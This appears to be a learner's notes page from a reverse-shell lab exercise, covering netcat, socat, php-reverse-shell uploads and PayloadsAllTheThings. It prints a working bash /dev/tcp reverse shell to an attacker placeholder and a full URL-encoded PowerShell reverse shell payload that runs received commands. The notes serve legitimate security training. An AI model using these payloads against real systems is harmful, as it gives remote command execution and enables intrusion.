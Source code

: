 > Navigate to `/usr/share/webshells/php/php-reverse-shell.php` in Kali Linux and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.

Much more comfy. I hadn’t realized before how much nicer this reverse shell is than what we typically use.

Also, one big reason to want to “stabilize” a reverse shell — to get tab completion!

> Log into the Linux machine over SSH using the provided credentials. Use the `mkfifo` method to experiment with bind and reverse netcat shells.

Remember, `-l` and `-p` are for *listners*!

> Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

Okay, the auto-stabilized socat shells are pretty freakin’ cool.

…Also, I’m really not sure why socat’s syntax is considered that much harder. It’s pretty readable.

> Look through PayloadsAllTheThings and try some of the other reverse shell techniques. Try to analyze them and see *why* they work.

If you have access to bash with the virtual /dev/tcp device (this actually live in bash, not in /dev) then this is a pretty handy reverse shell:

```bash
bash -li &> /dev/tcp/$ATTACKER_IP/$LISTENER_PORT 0>&1
```

Catch it with netcat or socat.

(That said, the fact that all of my file descriptors wind up pointing at /dev/tcp is a little mysterious to me. I *think* what’s happening here is that /dev/tcp is bidirectional “out of the box” — incoming data comes out, just as outgoing data goes in — so binding all three “core” file descriptors to it does the right thing. That, and realize that the `X>&Y` construct means “bind file descriptor X to file descriptor Y”, and `&>` is just short for `2>&1 >`, and `>` is just short for `1 >`. So really what’s happening here is that we bind STDERR to STDOUT with and implicit `2>&1`, then bind STDOUT to /dev/tcp with an implicit `1 >`, then bind STDIN to /dev/tcp as well with `0>&1`.)

* [PayloadsAllTheThings Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Using “netcat”](../notes/netcat.md)
* [Using “socat”](../notes/socat.md)

### Windows Practice Box

> Try uploading and activating the `php-reverse-shell`. Does this work?

Unsurprisingly, `php-reverse-shell.php` does *not* work on a Windows box.

> Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.

Evil, URL-encoded version of the PowerShell reverse shell from above:

```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
